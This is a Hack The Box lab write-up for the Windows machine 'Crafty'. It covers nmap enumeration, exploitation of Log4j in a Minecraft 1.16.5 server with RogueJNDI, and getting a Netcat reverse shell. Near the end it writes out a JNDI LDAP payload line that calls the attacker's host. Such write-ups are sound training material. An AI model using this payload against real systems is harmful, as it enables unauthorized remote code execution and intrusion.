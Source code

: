 ```yaml
---
title: Crafty (HACKTHEBOX)
description: "This is a writeup for the machine Crafty from hackthebox, which is a Windows machine with difficulty easy." 
publishDate: "2025-04-24T07:20:10Z"
tags: ["HTB", "WindowsMachine", "easyMachine"]
---
```


# Enumeration

## Nmap

``nmap -sV -sC <targetIP>``

![alt text](HTBImage/crafty/nmap.png)

The results reveals that only two ports are open. 

## HTTP

Browsing to port 80, 

![alt text](HTBImage/crafty/page.png)

The website is promoting a Minecraft server and includes links to features like a store, forums, and a voting page — though they’re all marked as “coming soon.” Since there’s nothing more to explore on the website itself, our next step is to turn our attention to the Minecraft service.

## Exploiting Minecraft

From the Nmap results, we found that the Minecraft server is running version 1.16.5. Looking into potential vulnerabilities for this version points us toward the well-known Log4j exploit, which affected several versions of Minecraft’s server edition. The developers recommended updating the affected libraries to patch this issue.

To see if this vulnerability can be used in our case, we first need a compatible Minecraft client for version 1.16.5. Once we download and launch the client, we test the connection by attempting to log in using an empty password — this helps us check whether or not authentication is enforced on the server.

At the password prompt we press Enter and we connect to the target server.

![alt text](HTBImage/crafty/i.png)

## Foothold

Now that we're successfully connected to the Minecraft server, the next step in attempting exploitation is to set up a tool called RogueJNDI. To do this, we open a second terminal window and begin by cloning the RogueJNDI GitHub repository. After downloading the code, we compile the project to prepare it for use in our exploit attempt.

![alt text](HTBImage/crafty/github.png)

![alt text](HTBImage/crafty/build.png)

Once compiled, we need to grab a Netcat executable to execute on the target.

![alt text](HTBImage/crafty/downloadnetcat.png)

We host a Python web server on a third terminal to collect Netcat from.

![alt text](HTBImage/crafty/python.png)

Netcat listener in another terminal.

![alt text](HTBImage/crafty/netcat.png)

In **rogue-jndi** folder in the other terminal, we execute the following command to start malicious LDAP server.

![alt text](HTBImage/crafty/malicious-server.png)

In the first terminal, which we’re using to interact with the remote Minecraft server, we check the command-line interface (CLI) documentation and find that the /send command can be used to send messages to the server. Based on this, we build a custom message containing our payload. When this message is sent, it will trigger the exploit we’ve set up.

``/send ${jndi:ldap://10.10.16.29:1389/o=reference}``

Like this, example:

![alt text](HTBImage/crafty/exampl.png)

After sending the message containing the payload, we check our Netcat listener and see that we
have a shell on the system as svc_minecraft .

![alt text](HTBImage/crafty/exmp.png)

The user flag can be found at C:\Users\svc_minecraft\Desktop\user.txt.

# Learnings

- Minecraft Exploitation: Found vulnerable version (1.16.5) affected by Log4j.

- RogueJNDI: Cloned, built with Maven (mvn package), used for LDAP payloads.

- Python HTTP Server: Hosted Netcat executable.

- Netcat: Used to set up listener and capture reverse shell.

- Payload Delivery: Used /send ${jndi:...} to trigger exploit from Minecraft chat.

- Shell Access: Gained reverse shell as svc_minecraft.

# Reference

Pho3. (2025, January 17). Crafty walkthrough (Document No. D25.100.319) [PDF]. theblxckcicada
